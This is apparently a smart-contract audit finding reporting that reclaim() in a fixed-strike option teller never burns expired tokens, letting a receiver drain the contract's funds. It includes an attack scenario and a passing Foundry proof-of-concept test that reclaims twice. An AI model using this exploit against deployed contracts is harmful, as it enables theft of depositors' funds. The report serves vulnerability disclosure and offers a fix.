 tvdung94

high

# Malicious users could empty teller quote/payout tokens by repeatedly reclaim expired option token

## Summary
Malicious receivers could empty teller quote/payout tokens by repeatedly reclaim expired option token.
## Vulnerability Detail
When the option tokens expire, receivers can reclaim funds via reclaim(). However, in reclaim(), expired tokens are not burned after being reclaimed, so receivers can just reclaim funds as many times as they wish, draining tokens in the teller's balance. 

Attack scenario:
- Bob (attacker) sees a good option with lots of people minting its option token.
- Bob deploys his own option (bobOptionToken) with same quote/payout token settings as the option above, with preferably  shorter expiry.
- Bob mints some bobOptionToken to make sure that bobOptionToken.totalSupply() is not 0.
- After bobOptionToken's expiry, Bob can just abuse reclaim() to withdraw quote/payout token as many times as he wishes.

## Impact
Malicious receivers can steal all teller's funds.
## Code Snippet
https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437

Test: 
```solidity
function test_steal_reclaim_call() public {
        //console2.log("ALICE  balance before: ", abc.balanceOf(address(alice)));
        //console2.log("BOB    balance before: ", abc.balanceOf(address(bob)));
        //console2.log("TELLER balance before: ", abc.balanceOf(address(teller)));
        //console2.log();
        // Deploy call option token
        uint256 strikePrice = 5 * 10 ** def.decimals();
        FixedStrikeOptionToken optionToken = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            alice, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );

        // Mint option tokens by depositing collateral (payout tokens)
        uint256 amount = 100 * 10 ** abc.decimals();
        vm.prank(alice);
        teller.create(optionToken, amount);

        vm.startPrank(bob);
        FixedStrikeOptionToken optionTokenBob = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            bob, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );
        teller.create(optionTokenBob, amount);

        vm.stopPrank();

        // Warp forward past expiry
        vm.warp(block.timestamp + 9 days);

        uint256 tellerPayoutStart = abc.balanceOf(address(teller));

        vm.startPrank(bob);
        teller.reclaim(optionTokenBob);
        teller.reclaim(optionTokenBob);
        vm.stopPrank();

        // check we withdraw double
        assertEq(abc.balanceOf(address(teller)), tellerPayoutStart - amount * 2);

        //console2.log("ALICE  balance after: ", abc.balanceOf(address(alice)));
        //console2.log("BOB    balance after: ", abc.balanceOf(address(bob)));
        //console2.log("TELLER balance after: ", abc.balanceOf(address(teller)));
    }

```

[PASS] test_steal_reclaim_call() (gas: 578064)
## Tool used

Manual Review

## Recommendation
Burn expired tokens after reclaim.
